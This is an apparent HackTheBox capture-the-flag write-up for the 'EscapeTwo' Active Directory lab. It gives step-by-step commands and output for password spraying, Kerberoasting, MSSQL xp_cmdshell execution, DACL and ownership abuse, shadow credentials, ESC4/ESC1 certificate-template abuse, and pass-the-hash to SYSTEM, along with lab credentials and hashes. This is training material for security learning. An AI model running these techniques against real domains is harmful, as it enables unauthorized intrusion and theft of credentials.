

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# EscapeTwo

[EscapeTwo](https://app.hackthebox.com/machines/EscapeTwo) is an <mark style="color:green;">easy</mark> Active Directory box focused on layered credential access and [ADCS](../../tl-dr/active-directory/attacks/adcs.md) misconfigurations. Starting with **SMB enum** and known creds, we find plaintext service account passwords. [**Password spraying**](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) grants us MSSQL `sa` access, enabling **command execution** via `xp_cmdshell` and further creds for WinRM as `ryan`. Analyzing domain data reveals `ryan` controls `ca_svc`; a member of the [`Cert Publishers`](../../tl-dr/active-directory/groups/cert-publishers.md) group. By changing ownership and ACLs, we perform a [**shadow credentials attack**](../../tl-dr/active-directory/attacks/adcs.md#shadow-credentials) to impersonate `ca_svc`, then exploit a vulnerable template ([**ESC4**](../../tl-dr/active-directory/attacks/adcs.md#template-abuse-esc4)) to request an `Administrator` certificate ([**ESC1**](../../tl-dr/active-directory/attacks/adcs.md#identity-hijack-esc1)). This lets us get the NT hash and run commands as `SYSTEM`, achieving **full domain compromise**.

<table><thead><tr><th width="55.33331298828125" align="center">Step</th><th width="176.66668701171875">Action</th><th width="265.99993896484375">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="center">1</td><td>SMB recon</td><td><a href="../../tl-dr/active-directory/ad-tools/netexec.md"><code>nxc</code></a></td><td>Creds for <code>sa</code></td></tr><tr><td align="center">2</td><td>MSSQL enum</td><td><a href="../../tl-dr/active-directory/ad-tools/impacket.md"><code>mssqlclient</code></a></td><td>Creds for <code>sql_svc</code></td></tr><tr><td align="center">3</td><td>Password-spray</td><td><a href="../../tl-dr/active-directory/ad-tools/netexec.md"><code>nxc</code></a></td><td>Creds for <code>ryan</code> (foothold)</td></tr><tr><td align="center">4</td><td>Domain analysis</td><td><a href="../../tl-dr/active-directory/ad-tools/netexec.md"><code>nxc</code></a>, <a href="../../tl-dr/active-directory/ad-tools/hounds.md#bloodhound"><code>bloodhound</code></a></td><td>PE vector</td></tr><tr><td align="center">5</td><td>Shadow credentials</td><td><code>certipy</code>, <code>owneredit</code>, <code>dacledit</code></td><td>Access as <code>ca_svc</code></td></tr><tr><td align="center">6</td><td>ESC4 attack</td><td><code>certipy</code></td><td>Template abuse</td></tr><tr><td align="center">7</td><td>ESC1 attack</td><td><code>certipy</code>, <a href="../../tl-dr/active-directory/ad-tools/impacket.md#pass-the-hash"><code>impacket-psexec</code></a></td><td>Identify hijack (<code>Domain Admin</code>)</td></tr></tbody></table>

## Foothold

### Domain Recon

We begin by scanning the target machine for open ports and services ([`nmap-scan.sh`](https://raw.githubusercontent.com/CSpanias/ctf-scripts/refs/heads/main/nmap-scan.sh)):

```bash
# Port-scan the target
$ nmap-scan.sh escapetwo
```

This reveals several interesting TCP and UDP services:


```bash
# TCP ports
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp  open  ldap

# UDP ports
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
```


The presence of Kerberos, LDAP, SMB, and MSSQL strongly suggests that this is a **Domain Controller (DC)** in an **Active Directory (AD)** environment. To simplify name resolution, we add the domain information to `/etc/hosts`:

```bash
# Add FQDN to the local DNS file
$ grep seq /etc/hosts
10.10.11.51     escapetwo DC01.sequel.htb sequel.htb dc01
```

Using the provided credentials, we enumerate domain users and extract their usernames for further use:


```bash
# Enumerate domain users and build a custom wordlist
$ nxc smb escapetwo -u rose -p KxEPkKe6R8su --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users
```


With our wordlist ready, we attempt a [**password spray**](../../tl-dr/active-directory/attacks/password-spraying.md) using the known password across all users:

```bash
# Test for password reuse
$ nxc smb escapetwo -u domain_users -p KxEPkKe6R8su --continue-on-success
```

Moving on, we test for two common AD attacks, [**AS-REPRoasting**](../../tl-dr/active-directory/attacks/as-reproasting.md) and [**Kerberoasting**](../../tl-dr/active-directory/attacks/kerberoasting.md):


```bash
# Check for AS-REP roastable accounts
$ impacket-GetNPUsers sequel.htb/ -dc-ip escapetwo -no-pass -usersfile domain_users

# Check for Kerberoastable accounts
$ impacket-GetUserSPNs -request -dc-ip escapetwo sequel.htb/rose:KxEPkKe6R8su
...
[-] CCache file is not found. Skipping...
$krb5tgs$23$*sql_svc$SEQUEL.HTB$sequel.htb/sql_svc*$2cf...d65
$krb5tgs$23$*ca_svc$SEQUEL.HTB$sequel.htb/ca_svc*$b29...4d5
```


The latter yields TGS hashes for two service accounts: `sql_svc` and `ca_svc`. Our attempt to crack these hashes is unsuccessful:


```bash
# Try to crack the TGS hashes
$ hashcat -m 13100 svc_hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


Next, we enumerate available SMB shares:


```bash
# List accessible shares
$ nxc smb escapetwo -u rose -p KxEPkKe6R8su --shares
...
SMB 10.10.11.51     445    DC01     Accounting Department READ
SMB 10.10.11.51     445    DC01     ADMIN$                          Remote Admin
SMB 10.10.11.51     445    DC01     C$                              Default share
SMB 10.10.11.51     445    DC01     IPC$            READ            Remote IPC
SMB 10.10.11.51     445    DC01     NETLOGON        READ            Logon server share
SMB 10.10.11.51     445    DC01     SYSVOL          READ            Logon server share
SMB 10.10.11.51     445    DC01     Users           READ
```


Among the default shares, one stands out: `Account Department`. We recursively download its contents:


```bash
# Download files from non-default shares
$ nxc smb escapetwo -u rose -p KxEPkKe6R8su -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=420000 OUTPUT_FOLDER=./ EXCLUDE_FILTER=admin$,c$,ipc$,netlogon,sysvol,users
```


Within the share, we find two `.xlsx` files. Since Excel files are zip containers, we extract their contents:


```bash
# Unzip and inspect the Excel files
$ unzip accounting_2024.xlsx -d accounting_2024
$ unzip accounts.xlsx -d accounts
```


Inside `sharedStrings.xml`, we spot plenty of plaintext credentials:


```xml
...
    <t xml:space="preserve">sa@sequel.htb</t>
    <t xml:space="preserve">sa</t>
    <t xml:space="preserve">MSSQLP@ssw0rd!</t>
...
```


We reuse the newly obtained passwords in another spray, which reveals access to `oscar`:


```bash
# Password-spray with the new passwords
$ nxc smb escapetwo -u domain_users -p passwords --continue-on-success | grep +
SMB     10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB     10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```


### MSSQL Recon

Given that SQL Server is exposed and we now have the **`sa`** password, we connect directly:

```bash
# Connect to MSSQL using the 'sa' credentials
$ impacket-mssqlclient sequel.htb/sa@escapetwo
```

From within the SQL session, we inspect the configuration files, which gives us another credential:


```bash
SQL (sa  dbo@msdb)> EXEC xp_cmdshell 'type c:\SQL2019\ExpressAdv_ENU\sql-configuration.ini'
...
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
...
```


Another round of password spraying gives us access to `ryan`:


```bash
# New hit from password spraying
$ nxc smb escapetwo -u domain_users -p passwords --continue-on-success | grep +
...
SMB  10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
```


We validate `ryan`'s privileges using LDAP, which reveals that they have **remote access** via WinRM:


```bash
# Check group membership
$ nxc ldap escapetwo -u ryan -p WqSZAF6CysDQbGb3 -M whoami
...
WHOAMI     10.10.11.51 389    DC01                                                Member of: CN=Remote Management Users,CN=Builtin,DC=sequel,DC=htb
...

# WinRM shell as Ryan
$ evil-winrm -u ryan -p WqSZAF6CysDQbGb3 -i 10.10.11.51
...
*Evil-WinRM* PS C:\Users\ryan\Documents>
```


## Privilege Escalation

### Shadow Credentials

With access to the `ryan` account, we begin our escalation by gathering a BloodHound-compatible dataset to understand the domain’s structure and identify privilege paths:


```bash
# Collect domain data
$ nxc ldap 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 --bloodhound -c All --dns-server 10.10.11.51
```


Among the results, we discover that `ryan` has [`WriteOwner`](../../tl-dr/active-directory/permissions/writeowner.md) permissions over `ca_svc` that has a membership of the [`Cert Publishers`](../../tl-dr/active-directory/groups/cert-publishers.md) group. This hints us to check for a potential [**ESC4**](../../tl-dr/active-directory/attacks/adcs.md#template-abuse-esc4) attack.

<figure><figcaption></figcaption></figure>

We attempt to exploit this by performing the [**shadow credentials**](../../tl-dr/active-directory/attacks/adcs.md#shadow-credentials) attack against the `ca_svc` account:


```bash
# Performing the shadow credentials attack
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
...
[-] Could not update Key Credentials for 'ca_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0/
```


However, this fails with an `INSUFF_ACCESS_RIGHTS` error. To fix this, we need to elevate `ryan`’s privileges over the target account. We begin by making `ryan` the **owner** of the `ca_svc` user object:


* **Ownership** give us the right to modify the object's permissions (DACL).
* Once we're owner, we can give ourselves `FullControl`; we don’t automatically get it.



```bash
# Set ryan as the owner of ca_svc account
$ impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
...
[*] OwnerSid modified successfully!
```


Then, we grant `FullControl` permissions to `ryan` over the same object:


```bash
# Give FullControl permissions to ryan over ca_svc
$ impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
...
[*] DACL modified successfully!
```


With these changes in place, we retry the shadow credentials attack — this time successfully:


```bash
$ certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
...
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```


### Template Abuse (ESC4)

Using the credentials for `ca_svc`, we can enumerate vulnerable certificate templates:


```bash
# Enumerate vulnerable templates
$ certipy find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vuln
...
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
...
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```


We identify a template named `DunderMifflinAuthentication` that is writable by `Cert Publishers`, confirming an **ESC4** condition. To escalate this to **ESC1**, we reconfigure the template to allow certificate-based authentication:


```bash
# Make the template vulnerable to ESC1
$ certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration
...
[*] Successfully updated 'DunderMifflinAuthentication'
```


### Identity Hijack (ESC1)

Now that we control a vulnerable template, we request a certificate impersonating the  `administrator`:


```bash
$ certipy req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb -target dc01.sequel.htb -target-ip 10.10.11.51
...
[*] Wrote certificate and private key to 'administrator.pfx'
```


We can now authenticated as `Administrator` using the certificate (`.pfx`):


```bash
$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
...
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```


With the `Administrator` hash in hand, we can launch a privileged shell:


```bash
$ impacket-psexec -hashes :7a8d4e04986afa8ed4060f75e5a0b3ff administrator@10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
...
C:\Windows\system32> whoami
nt authority\system
```

